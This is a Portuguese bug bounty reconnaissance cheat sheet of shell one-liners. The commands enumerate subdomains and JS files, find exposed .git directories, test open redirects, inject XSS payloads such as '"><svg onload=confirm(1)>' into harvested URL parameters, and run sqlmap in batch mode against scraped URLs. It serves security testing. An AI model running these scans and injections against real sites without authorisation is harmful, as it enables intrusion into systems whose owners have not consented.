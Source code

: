 ```yaml
---
title: "Recon / Bug Bounty Cheat Sheet"
permalink: /ct/reconb-cs/
layout: archive
author_profile: true
---
```


# Recon

Faz um levantamento de arquivos js e salva em um arquivo
```
echo [dominio] | gauplus | grep -iE '\.js' | anew [nome-arquivo] 
```

Valida se os arquivos js encontrados estão disponíveis
```
cat [nome-arquivo] | httpx -status-code -mc 200 | anew [nome-arquivo]
```

Passa lista para dentro de comandos que não recebem listas
```
xargs -a lista -I@ sh -c 'comando @'
```

encontrando git exposed em larga escala
```
echo [site] | subfinder -silent | xargs -I@ sh -c 'goop @ -f'
```

testando open redirect
```
waybackurls [site] | grep -a -i \=http | qsreplace 'https://softwall.com.br' | while read host do;do curl -s -L $host -I|grep "softwall.com.br" && echo -e "$host \033[0;31mVulnerable\n" ;done
```


CRONTAB :
```
59 10 * * * nuclei -update-templates ; echo "NUCLEI ATUALIZADO" | /usr/bin/notify >/dev/null 2>&1 >/dev/null 2>&1
```

Pegando IP dos subdominios, enumerando portas e vendo se tem vulns
```
echo [site] | subfinder -silent | httpx -silent -ip | awk '{print $2}' | tr -d '[]' | xargs -I@ sh -c 'echo @ | sdlookup -json | python3 -m json.tool' 
```

```
bbrf domains | httpx -ip -silent -no-color | awk '{print $2}' | anew | tr -d '[]' | xargs -I@ sh -c 'echo @ | sdlookup -json | python -m json.tool'
```

```
echo terra.com.br | httpx -silent -ip | awk '{print $2}' | tr -d '[]' | xargs -I@ sh -c 'echo @ | sdlookup -json | python -m json.tool'
```

Testando XSS
```
echo [site] | httpx -silent | hakrawler -subs | grep "=" | qsreplace '"' | airixss -payload "confirm(1)" | egrep -v 'Not'
```

```
echo [site] | gauplus | gf xss | uro | httpx -silent | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)"
```

```
echo [site] | waybackurls | gf xss | uro | httpx -silent | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)"
```

```
echo testphp.vulnweb.com | waybackurls | gf xss | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq | egrep -v 'Not'
```

Testando SQLi
```
findomain -t [site] -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1
```

```
subfinder -d [site] -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1
```

Busca de SubDominio
```
curl -s "https://jldc.me/anubis/subdomains/[dominio]" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | anew
```

